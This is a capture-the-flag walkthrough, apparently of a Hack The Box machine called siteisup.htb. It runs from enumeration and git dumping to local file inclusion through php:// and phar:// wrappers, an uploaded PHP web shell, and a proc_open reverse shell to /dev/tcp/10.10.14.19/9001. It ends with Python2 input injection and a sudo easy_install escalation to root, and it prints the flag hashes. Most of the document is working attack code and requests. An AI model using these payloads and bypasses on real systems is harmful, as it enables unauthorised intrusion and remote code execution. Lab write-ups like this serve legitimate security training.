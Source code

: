 IP: 10.10.11.177
# Enumeration
## Nmap
```bash
Nmap scan report for 10.10.11.177
Host is up (0.010s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Is my Website up ?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Website
A website that checks if a page is up.
Checking our host to see if it can reach us.

This gives a host name
`siteisup.htb`

## Gobuster
```bash
gobuster -m dir -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o webroot.gobuster -u http://10.10.11.177
```
Found a dev directory which means another gobuster.
`.git` dir

# Code analysis
Git dumper to dump the repo.
```bash
python3 /opt/git-dumper/git_dumper.py http://siteisup.htb/dev/.git/ .
```
Looking at the index.php page there is a lfi for the page parameter which will append .php to any file that is not included in the following regex:
```
/bin|usr|home|var|etc/i
```
There is also a blacklist on `check.php` for what file types are not allowed.
```
/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i
```
Looking at the git logs there is a commit that removes `.htpasswd` which also has a `.htaccess` file.

```bash
git checkout 354fe069f6205af09f26c99cfe2457dea3eb6a6c
cat ./.git/.htaccess

SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```
Which is a header to add in the request for the lfi.

There is also mention of a dev vhost (subdomian)
This page (you have to add the header to see it) is a file upload page.

Try the LFI now on the vhost with the header.
```http
GET /?page=php://filter/convert.base64-encode/resource=index HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Special-Dev: only4dev
```
The page uploads to the uploads directory.
The server wipes the upload as soon as the check is done. To stop this we can just keep the connection open with nc
```bash
nc -lvnkp 9001

```
Using a payload (file.txt) of:
```php
<?php system($_GET['cmd']); ?>
http://10.10.14.19:9001
```
which works!
Next is to try to get code execution. We can use a php phar wrapper. It's like a zip that the phar filter can go into and run files. The cool thing about this is the only check is the magic byte so if it is called pahr_zip.notmalware it will run :)

Just use zip to turn it into a phar file.
This gives a 500 internal error :(
```http
GET /?page=phar://uploads/31da4fcf76bb3b1c8eaf9c1a23abdf24/test.notmalware/file HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Special-Dev: only4dev
```

Check if this happens for a simple echo.

This works.
```http
HTTP/1.1 200 OK
Date: Fri, 27 Jan 2023 13:41:13 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 107
Connection: close
Content-Type: text/html; charset=UTF-8

<b>This is only for developers</b>
<br>
<a href="?page=admin">Admin Panel</a>
hellohttp://10.10.14.19:9001
```
So there is RCE, which means there is some sort of black/white list. Lets check php info to find disabled functions.
```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen
```
system is included so thats why we have the 500.

There is a dfunc-bypasser script on github which has a list of all the 'dangerous functions'
```
dangerous_functions = ['pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped','pcntl_wifsignaled','pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler','pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait','pcntl_exec','pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','error_log','system','exec','shell_exec','popen','proc_open','passthru','link','symlink','syslog','ld','mail']
```

proc_open (looked manually but here is a python script.)
```python
dangerous_functions = ['pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped','pcntl_wifsignaled','pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler','pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait','pcntl_exec','pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','error_log','system','exec','shell_exec','popen','proc_open','passthru','link','symlink','syslog','ld','mail']

phpinfo = ['pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped','pcntl_wifsignaled','pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler','pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait','pcntl_exec','pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','pcntl_unshare','error_log','system','exec','shell_exec','popen','passthru','link','symlink','syslog','ld','mail','stream_socket_sendto','dl','stream_socket_client','fsockopen']

print(*[x for x in dangerous_functions if x not in phpinfo]) # lol x in a not b (the venn diagram stuff from way to long ago)
```
seems to not be in the phpinfo file.

Create a rev shell.
```php
<?php
$cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.19/9001 0>&1'";
$pipe = array(
	0 => array("pipe","r"),
	1 => array("pipe","w"),
	2 => array("pipe","w")
);
$proc = proc_open($cmd, $pipe, $pipes);
?>
```
Ta da foothold!
There is a python2 file `/home/developer/dev/siteisup_test.py` which uses input. This can lead to code exec (cause python2 is dumb).
```python
__import__('os').system("bash")
```
YAY! (I **LOVE** python priv esc paths)

Still cant cat the user flag. Just going to take the ssh key instead.

Now finally user.txt
```
2b720ab6b7c66788c3a9e42a3af7a14c
```

`sudo -l` says easy_install and gtfobins says
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
root.txt
```
1f254877e04615bf2c9d76322a3f6491
```